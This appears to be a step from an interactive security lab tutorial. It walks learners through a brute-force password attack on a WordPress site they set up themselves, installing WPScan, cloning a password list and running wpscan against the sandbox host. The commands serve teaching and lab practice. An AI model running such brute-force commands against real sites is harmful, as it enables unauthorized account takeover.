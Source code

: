 ### **3. Introduction Brute-Force Attack**
---

### **What is Brute-force attack?**
```
Brute-force attack means the attacker submits a huge number of passwords or usernames to guess the username and password correctly. 
```
 Now let try to enforce the brute-force attack to the WordPress website we have just created.
<br></br>
### Step 1:
 Download the WPscan using the command:

`gem install wpscan`{{execute}}
### Step 2:
 Clone the crack.txt file which includes a list of password from Github using the command:
`git clone https://github.com/tonywong586/CrackList.git`{{execute}}
<br></br>
access the CrackList file using the following command:

`cd CrackList`{{execute}}
<br></br>

### Step 4:
 Use the following command to enforce the Brute-force attack
`
wpscan --url https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com --passwords crack.txt
`{{execute}}

 If your password is included in the list of the crack.txt, After the brute-force attack command run you will see the password and username of the user that you created like the following image:

![Image](./assets/CrackedAC.png)

If it shows your username and password correctly mean that your password is leaked by the brute-force attack
